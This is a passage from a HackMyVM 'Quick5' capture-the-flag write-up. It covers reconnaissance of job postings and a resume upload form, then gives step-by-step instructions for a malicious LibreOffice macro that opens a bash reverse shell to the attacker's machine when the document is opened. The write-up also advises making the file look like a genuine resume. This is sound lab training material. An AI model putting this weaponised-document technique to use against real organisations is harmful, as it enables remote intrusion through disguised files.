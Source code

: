 ![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240215103747.png){: width="700" height="400" }


In the job description for the 'Security engineer' we could only discover an email address and a link to `apply.php`. We should add the email address to our notes.
- protector@quick.hmv

Let's check the job description for the developer vacancy.
![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240319191251.png){: width="700" height="400" }

This job description does tell us something more about the technologies used in the company and an email address. Let's add them to our notes:
- PHP
- Python
- LibreOffice
- Linux (servers)
- codewizard@quick.hmv

To make sure we don't miss anything we should check the job description for the 'Sales person' as well.

![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240319191847.png){: width="700" height="400" }


Another email address is found. We should add this one to our notes as well.
- wheeldealwhiz@quick.hmv

Let's now check the `apply.php` page.

![image](/assets/img/WriteUp/HackMyVM/Quick5/Pasted image 20240215103847.png){: width="700" height="400" }


To apply to a job we can upload a motivation letter and a resume. The file extension we can choose of are `.odt` and `.pdf`. In the job description for developer LibreOffice was mentioned. We can create a malicious macro that create a reverse shell back to our machine.

We should open LibreOffice Writer and start writing our malicious macro. We can follow the following steps:
1. Create a new file in LibreOffice Writer
2. Save the file as `filename.odt`
3. Go to `Tools` > `Macros` > `Organize Macros` > `Basic`
4. Select `document`
5. Click on the `New` button
6. Give the Macro a name

We can give the file any name we want and type anything we want into the document. But to convince any one we should give the file a proper name and content that looks like real.

The reverse shell macro we can use looks like this:
```
REM  *****  BASIC  *****
Sub on_open(oEvent As Object)

    Call Main

End Sub

Sub Main
	
	Shell("bash -c 'bash -i >& /dev/tcp/10.0.2.15/443 0>&1'")
    
End Sub
```
